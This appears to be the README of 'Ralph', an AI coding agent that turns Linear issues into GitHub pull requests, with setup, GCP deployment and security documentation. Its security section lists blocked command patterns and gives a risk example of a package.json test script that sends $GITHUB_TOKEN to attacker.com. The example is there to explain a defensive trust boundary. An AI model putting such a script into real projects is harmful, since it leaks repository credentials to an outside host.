

# Ralph - AI Coding Agent Platform

Ralph is an event-driven AI coding agent that automatically processes Linear issues, generates code using Claude AI, validates it with polyglot toolchains, and pushes pull requests to GitHub.

## Architecture



### How It Works

1. **Trigger**: Create a Linear issue with the label `Ralph`
2. **Webhook**: Linear sends webhook to Ralph API
3. **Queue**: API validates signature, enqueues task to Redis (BullMQ)
4. **Planning**: Worker uses Claude Opus to create implementation plan
5. **Coding**: Worker uses Claude Sonnet to generate code
6. **Validation**: Polyglot toolchain (Biome, Ruff, Mypy, TSC, Trivy) validates the code
7. **Push**: Worker commits and pushes to a feature branch

---

## API Endpoints

### GET /health

Health check endpoint to verify the API server is running.

| Property | Value |
|----------|-------|
| **Method** | GET |
| **Path** | `/health` |
| **Authentication** | None |
| **Response** | `{"status":"ok"}` |
| **Status Code** | 200 OK |

**Example:**
```bash
curl http://localhost:3000/health
```

**Response:**
```json
{"status":"ok"}
```

This endpoint is useful for:
- Kubernetes liveness/readiness probes
- Load balancer health checks
- Verifying the API is running during local development

---

## Security Features

Ralph implements multiple security layers to safely execute AI-generated code in untrusted repositories:

### Agent Tool Execution Security

The agent uses four tools to manipulate code (`list_files`, `read_file`, `write_file`, `run_command`). The `run_command` tool has strict security controls:

**1. Command Allowlist**
Only whitelisted command patterns are permitted:
- Build tools: `npm test`, `npm run build`, `npx`, `node`
- Version control: `git status`, `git log`, `git diff`, `git show`
- File operations: `ls`, `cat`, `pwd`, `echo`
- Testing: `pytest`, `python -m pytest`
- Linters: `ruff`, `mypy`

**2. Dangerous Pattern Blocking**
Commands containing these patterns are automatically rejected:
- Shell metacharacters: `;`, `&`, `|`, `` ` ``, `$()`
- Destructive operations: `rm -rf`
- Device manipulation: `> /dev/`
- Piped downloads: `curl ... |`, `wget ... |`

**3. Resource Limits**
- **Timeout**: 60 seconds maximum
- **Buffer limit**: 1MB output size
- **Output sanitization**: Truncated to 5000 chars (stdout) / 2000 chars (stderr)

**4. Path Traversal Protection**
All file operations validate that resolved paths remain within the ephemeral workspace using `path.resolve()` + `startsWith()` checks.

### Additional Security Layers

- **Webhook Authentication**: HMAC SHA-256 signature verification on Linear webhooks
- **Workspace Isolation**: Each task runs in a UUID-based ephemeral directory (`/tmp/ralph-workspaces`)
- **Security Scanning**: Trivy scans all generated code for vulnerabilities, secrets, and misconfigurations
- **Immutable Guardrails**: Hardcoded security rules prevent secret exposure and sandbox escapes

### Security Considerations & Known Limitations

**⚠️ IMPORTANT: Trust Boundary**

While Ralph implements multiple security controls, **commands like `npm test`, `npm run build`, and `pytest` can execute arbitrary code** from the target repository's configuration files (`package.json`, `conftest.py`, etc.).

**Risk Scenario:**
A malicious repository could define:
```json
{
  "scripts": {
    "test": "curl http://attacker.com?secret=$GITHUB_TOKEN"
  }
}
```

**Recommended Deployment Models:**

| Environment | Risk Level | Recommendation |
|-------------|------------|----------------|
| **Trusted repos only** | Low | Safe to use with your own repositories |
| **Public/untrusted repos** | High | Run Ralph in isolated container without credentials |
| **Production** | Medium | Use separate service account with minimal permissions, no access to production secrets |

**Mitigation Strategies:**

1. **Network isolation**: Run worker pods without internet access (use VPC with no NAT gateway)
2. **Credential isolation**: Use separate GitHub tokens per repo, rotate frequently
3. **Resource quotas**: Limit CPU/memory to prevent DoS
4. **Audit logging**: Monitor all command executions via Langfuse traces
5. **Manual review**: Require PR approval before merge, even for Ralph-generated code

Ralph is designed for **development automation on trusted codebases**, not for running arbitrary code from untrusted sources.

---

## Quick Start (Local Development)

```bash
# 1. Clone and setup
git clone https://github.com/Replikanti/ralph-platform.git
cd ralph-platform
cp .env.example .env
# Edit .env with your API keys

# 2. Start the stack
docker-compose up --build

# 3. Run tests
npm test
```

For local webhook testing, use [ngrok](https://ngrok.com/): `ngrok http 3000`

---

## Production Deployment (Google Cloud)

### Phase 0: Prerequisites

#### Required Tools

| Tool | Version | Installation |
|------|---------|--------------|
| `gcloud` | latest | [Install Guide](https://cloud.google.com/sdk/docs/install) |
| `kubectl` | latest | `gcloud components install kubectl` |
| `helm` | 3.x | [Install Guide](https://helm.sh/docs/intro/install/) |
| `terraform` | >= 1.5.0 | [Install Guide](https://developer.hashicorp.com/terraform/install) |
| `docker` | latest | [Install Guide](https://docs.docker.com/get-docker/) |

#### Required API Keys

Before starting, obtain these credentials (you'll add them to `terraform.tfvars`):

| Service | What You Need | Where to Get It | When Needed |
|---------|---------------|-----------------|-------------|
| **GCP** | Project with billing enabled | [GCP Console](https://console.cloud.google.com/) | Phase 1 |
| **GitHub** | Personal Access Token | Settings → Developer settings → PAT (scopes: `repo`, `admin:repo_hook`) | Phase 2 (Terraform) |
| **Anthropic** | API Key | [Anthropic Console](https://console.anthropic.com/) | Phase 2 (Optional in terraform.tfvars) |
| **Linear** | Webhook Signing Secret | Settings → API → Webhooks → Create webhook → Copy signing secret | Phase 2 (Optional in terraform.tfvars) |
| **Langfuse** | API Keys (optional) | [Langfuse Cloud](https://cloud.langfuse.com/) or self-hosted | Phase 2 (Optional in terraform.tfvars) |

**Note:** Application secrets (Anthropic, Linear, Langfuse) can be added to `terraform.tfvars` during Phase 2, or updated later in GCP Secret Manager. They're automatically synchronized to Kubernetes via External Secrets Operator.

---

### Phase 1: GCP Project Setup

```bash
# Login to GCP
gcloud auth login
gcloud auth application-default login

# Create new project (or use existing)
export PROJECT_ID="your-project-id"
gcloud projects create $PROJECT_ID --name="Ralph Platform"
gcloud config set project $PROJECT_ID

# Link billing account
gcloud billing accounts list
gcloud billing projects link $PROJECT_ID --billing-account=XXXXXX-XXXXXX-XXXXXX

# Enable required APIs
gcloud services enable \
  container.googleapis.com \
  redis.googleapis.com \
  compute.googleapis.com \
  servicenetworking.googleapis.com \
  containerregistry.googleapis.com \
  artifactregistry.googleapis.com \
  secretmanager.googleapis.com \
  iam.googleapis.com \
  iamcredentials.googleapis.com
```

---

### Phase 2: Infrastructure with Terraform

Terraform creates: VPC, GKE cluster, Redis (Memorystore), Workload Identity for GitHub Actions, GCP Secret Manager secrets, and auto-configures GitHub secrets.

```bash
cd infra

# Create terraform.tfvars
cat > terraform.tfvars <<EOF
project_id   = "your-project-id"
region       = "europe-west1"
github_owner = "Replikanti"
github_repo  = "ralph-platform"
github_token = "ghp_xxxxxxxxxxxx"  # PAT with repo/admin:repo_hook scopes

# Optional: Application secrets (leave empty to use placeholders)
anthropic_api_key     = "sk-ant-xxxxx"  # or leave empty
langfuse_public_key   = "pk-lf-xxxxx"   # or leave empty
langfuse_secret_key   = "sk-lf-xxxxx"   # or leave empty
linear_webhook_secret = "xxxxx"         # or leave empty
EOF

# Create GCS bucket for Terraform state (one-time)
gsutil mb -p $PROJECT_ID -l europe-west1 gs://${PROJECT_ID}-terraform-state

# Initialize Terraform
terraform init \
  -backend-config="bucket=${PROJECT_ID}-terraform-state" \
  -backend-config="prefix=ralph"

# Review plan
terraform plan

# Apply (creates all infrastructure ~15-20 min)
terraform apply
```

#### Terraform Outputs

After apply, note these outputs:
```bash
terraform output
# redis_host              = "10.x.x.x"
# gke_cluster_name        = "ralph-cluster"
# workload_identity_provider = "projects/xxx/locations/global/..."
```

---

### Phase 3: Secrets Management with External Secrets Operator

Ralph uses **External Secrets Operator (ESO)** to automatically sync secrets from GCP Secret Manager to Kubernetes.

```bash
# Connect to GKE cluster
gcloud container clusters get-credentials ralph-cluster --region europe-west1

# Verify connection
kubectl get nodes
```

#### Install External Secrets Operator

```bash
cd infra

# Run installation script (installs ESO with Workload Identity)
chmod +x install-eso.sh
./install-eso.sh

# Verify ESO is running
kubectl get pods -n external-secrets
```

#### Verify Secret Synchronization

```bash
# Check ExternalSecret resources
kubectl get externalsecrets

# Verify Kubernetes secrets were created automatically
kubectl get secrets | grep ralph

# You should see:
# - ralph-github-token
# - ralph-anthropic-key
# - ralph-langfuse
# - ralph-linear-secret
# - ralph-redis-secret
```

**No manual `kubectl create secret` commands needed!** Secrets are automatically synchronized from GCP Secret Manager.

#### Update Secrets Later

To update secret values after deployment:

**Option 1: Via GCP Console**
1. Go to https://console.cloud.google.com/security/secret-manager
2. Select your secret (e.g., `ralph-anthropic-key`)
3. Click "New Version" and enter new value
4. ESO syncs within 1 hour (or immediately with `kubectl annotate`)

**Option 2: Via terraform.tfvars**
```bash
# Update secret values in terraform.tfvars
vim infra/terraform.tfvars

# Apply changes
cd infra && terraform apply
```

---

### Phase 4: Build & Deploy

#### Option A: Manual Deploy (First Time)

```bash
# Build and push Docker image
docker build -t gcr.io/$PROJECT_ID/ralph:latest .
docker push gcr.io/$PROJECT_ID/ralph:latest

# Deploy with Helm
helm upgrade --install ralph ./helm/ralph \
  --set image.repository=gcr.io/$PROJECT_ID/ralph \
  --set image.tag=latest \
  --set redis.existingSecret=ralph-redis-secret \
  --set ingress.enabled=true \
  --set ingress.hosts[0].host=ralph.example.com \
  --set ingress.hosts[0].paths[0].path=/ \
  --set ingress.hosts[0].paths[0].pathType=Prefix

# Verify deployment
kubectl get pods
kubectl get ingress
```

#### Option B: CI/CD (Automated)

After Terraform applies, GitHub secrets are automatically configured. Push to `main` triggers deployment:

```bash
git push origin main
# GitHub Actions builds, pushes, and deploys automatically
```

Check workflow: `.github/workflows/deploy.yaml`

---

### Phase 5: DNS & Ingress

```bash
# Get Ingress external IP (may take few minutes)
kubectl get ingress ralph -w

# Once IP is assigned, configure DNS:
# ralph.example.com → [INGRESS_IP]
```

For GKE managed certificates (HTTPS), add to Helm values:
```yaml
ingress:
  annotations:
    kubernetes.io/ingress.global-static-ip-name: "ralph-static-ip"
    networking.gke.io/managed-certificates: "ralph-certificate"
```

---

### Phase 6: Linear Integration

1. Go to **Linear → Settings → API → Webhooks**
2. Create new webhook:
   - **URL**: `https://ralph.example.com/webhook`
   - **Events**: Enable `Issues` (Create, Update)
3. Copy the **Signing Secret** (should already be in K8s secret from Phase 3)

---

### Phase 7: Verification

```bash
# 1. Health check
curl https://ralph.example.com/health
# Expected: {"status":"ok"}

# 2. Webhook test (should return 401 - no signature)
curl -X POST https://ralph.example.com/webhook
# Expected: "Invalid signature"

# 3. Check logs
kubectl logs -l app=ralph-api --tail=50
kubectl logs -l app=ralph-worker --tail=50

# 4. End-to-end test
# Create Linear issue with label "Ralph" and description of a coding task
# Watch worker logs for processing
```

---

## Multi-Repository Setup

Ralph maps **Linear Teams to GitHub repositories**. This follows Linear's philosophy where each team owns their codebase.

### Configuration

Set the `LINEAR_TEAM_REPOS` environment variable as a JSON object mapping Linear team keys to repository URLs:

```bash
# Kubernetes secret
kubectl create secret generic ralph-team-repos \
  --from-literal=mapping='{"FRONT":"https://github.com/org/frontend","BACK":"https://github.com/org/backend","INFRA":"https://github.com/org/infrastructure"}'

# Or in .env for local development
LINEAR_TEAM_REPOS={"FRONT":"https://github.com/org/frontend","BACK":"https://github.com/org/backend"}
```

### Dynamic Mapping (Redis + ConfigMap)

Ralph uses a hybrid configuration system for repository mappings:
1. **ConfigMap (Persistent):** Mounted at `/etc/ralph/config/repos.json`. Updates here are persistent and survive restarts.
2. **Redis (Cache):** Used for fast lookups. Refreshed automatically when the ConfigMap file changes.

#### How to update configuration

**Option A: Update via Helm (Persistent)**
Update `teamRepos` in your `values.yaml` and run `helm upgrade`:
```yaml
teamRepos:
  FRONT: "https://github.com/org/frontend.git"
  BACK: "https://github.com/org/backend.git"
```
Ralph will detect the change in the mounted ConfigMap and update Redis automatically without a restart.

**Option B: Manual Redis Override (Temporary)**
You can force a configuration change immediately via Redis (will be overwritten if ConfigMap changes):
3. **Connect and set the mapping**:
   Inside the debug pod shell, use `redis-cli` with the IP/hostname from step 1 (do not use 'localhost', use the internal IP):
   ```bash
   redis-cli -h 10.x.x.x
   
   # Set the mapping key
   SET ralph:config:repos '{"FRONT":"https://github.com/new/frontend"}'
   
   # Verify configuration
   GET ralph:config:repos
   
   exit
   ```

#### Precedence
1. Redis Cache (checked first)
2. ConfigMap File (checked if Redis empty or file changed)
3. Environment Variable `LINEAR_TEAM_REPOS` (Legacy fallback)
4. Environment Variable `DEFAULT_REPO_URL` (Final fallback)

### How it works

1. Linear issue is created with label "Ralph" in team "FRONT"
2. Ralph receives webhook with `team.key = "FRONT"`
3. Looks up `FRONT` in `LINEAR_TEAM_REPOS` → `https://github.com/org/frontend`
4. Clones that repository, creates branch, pushes PR

### Fallback behavior

| Scenario | Behavior |
|----------|----------|
| Team key found in `LINEAR_TEAM_REPOS` | Uses mapped repository |
| Team key not found, `DEFAULT_REPO_URL` set | Uses default repository |
| Neither configured | Issue is ignored (logged as warning) |

### Finding your Linear team keys

Team keys are the short prefixes in issue identifiers (e.g., `FRONT-123` → team key is `FRONT`).

You can also find them in Linear: **Settings → Teams → [Team Name] → Team key**

---

## Configuration Reference

### Environment Variables

| Variable | Required | Description |
|----------|----------|-------------|
| `REDIS_URL` | Yes | Redis connection string |
| `GITHUB_TOKEN` | Yes | PAT with `repo` scope |
| `ANTHROPIC_API_KEY` | Yes | Anthropic API key |
| `LINEAR_WEBHOOK_SECRET` | Yes | Linear webhook signing secret |
| `LANGFUSE_SECRET_KEY` | No | Langfuse secret key |
| `LANGFUSE_PUBLIC_KEY` | No | Langfuse public key |
| `LANGFUSE_HOST` | No | Langfuse host URL |
| `DEFAULT_REPO_URL` | No | Default repo for tasks without explicit repo |

### Helm Values

See `helm/ralph/values.yaml` for all configurable options.

Key values:
```yaml
image:
  repository: gcr.io/your-project/ralph
  tag: latest

redis:
  existingSecret: ralph-redis-secret

ingress:
  enabled: true
  hosts:
    - host: ralph.example.com

scaling:
  workerReplicas: 2

resources:
  worker:
    limits:
      memory: 2Gi
```

---

## Troubleshooting

### Pods not starting

```bash
kubectl describe pod <pod-name>
kubectl logs <pod-name>
```

### Webhook returns 401

- Verify `LINEAR_WEBHOOK_SECRET` matches Linear webhook settings
- Check API logs: `kubectl logs -l app=ralph-api`

### Worker not processing jobs

- Check Redis connectivity: `kubectl exec -it <api-pod> -- redis-cli -h $REDIS_HOST ping`
- Check worker logs: `kubectl logs -l app=ralph-worker`

### Terraform errors

- Ensure all APIs are enabled
- Check service account permissions
- Verify billing is enabled on project

---

## Development

```bash
# Run tests
npm test

# Run single test file
NODE_OPTIONS=--experimental-vm-modules npx jest tests/server.test.ts

# Build TypeScript
npm run build

# Start locally (requires Redis)
npm run start:api
npm run start:worker
```

---

## License

MIT
